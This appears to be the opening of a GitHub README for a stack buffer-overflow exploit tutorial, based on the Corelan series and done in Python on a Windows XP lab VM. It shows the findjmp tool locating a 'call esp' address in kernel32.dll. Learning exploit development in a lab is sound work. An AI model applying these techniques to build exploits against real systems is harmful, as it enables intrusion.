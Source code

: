 
This exploit tutorial is basically following along with:

https://www.corelan.be/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/

Only writing the exploits using Python.

Tools / Things You Need:

* A Windows XP / SP3 VM
* Immunity Debugger
* The vulnerable application from tutorial 1
* findjmp.exe (see https://github.com/nickvido/littleoldearthquake/tree/master/corelan/findjmp/findjmp/bin)

###Part 1: call [reg]

In this section, the exploit is built by finding a call esp opcode in kernel32.dll.

Use findjmp.exe:

findjmp kernel32.dll esp

With results: 
<pre><code>
----------------------------------------------------------------------------
Findjmp, Eeye, I2S-LaB
Findjmp2, Hat-Squad
Scanning kernel32.dll for code useable with the esp register
----------------------------------------------------------------------------
0x7C836A78  call esp
----------------------------------------------------------------------------
Finished Scanning kernel32.dll for code useable with the esp register
Found 1 usable addresses
----------------------------------------------------------------------------
</code></pre>



